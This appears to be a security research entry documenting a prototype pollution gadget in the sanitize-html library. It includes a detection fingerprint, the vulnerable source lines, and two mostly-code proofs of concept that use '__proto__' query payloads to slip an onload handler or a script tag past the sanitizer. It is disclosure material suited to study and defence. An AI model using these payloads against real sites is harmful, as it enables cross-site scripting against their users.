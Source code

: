 ## sanitize-html

URL: https://github.com/apostrophecms/sanitize-html

### JS Fingerprint
```
return (typeof sanitizeHtml !== 'undefined')
```

### Vulnerable code fragment
https://github.com/apostrophecms/sanitize-html/blob/d78ee44069b3a3bb70aca3289de63b7acbffd4f2/index.js#L275-L280
```js
          if (!allowedAttributesMap ||
            (has(allowedAttributesMap, name) && allowedAttributesMap[name].indexOf(a) !== -1) ||
            (allowedAttributesMap['*'] && allowedAttributesMap['*'].indexOf(a) !== -1) ||
            (has(allowedAttributesGlobMap, name) && allowedAttributesGlobMap[name].test(a)) ||
            (allowedAttributesGlobMap['*'] && allowedAttributesGlobMap['*'].test(a))) {
            passedAllowedAttributesMapCheck = true;
```

https://github.com/apostrophecms/sanitize-html/blob/4c229fbbc9c269236b571dcbf834dc7c0ea19012/index.js#L194-L196
```js
        result += ">";
        if (frame.innerText && !hasText && !options.textFilter) {
          result += frame.innerText;
        }
```

### PoC

#### PoC #1

```
?__proto__[*][]=onload
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
<script>
  Object.prototype['*'] = ['onload']
</script>
<script>
  document.write(sanitizeHtml('<iframe onload=alert(1)>'))
</script>
```

#### PoC #2

```
?__proto__[innerText]=<script>alert(1)</script>
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
<script>
  Object.prototype.innerText = "<script>alert(1)<\/script>"
</script>
<script>
  document.write(sanitizeHtml('<a>'))
</script>
```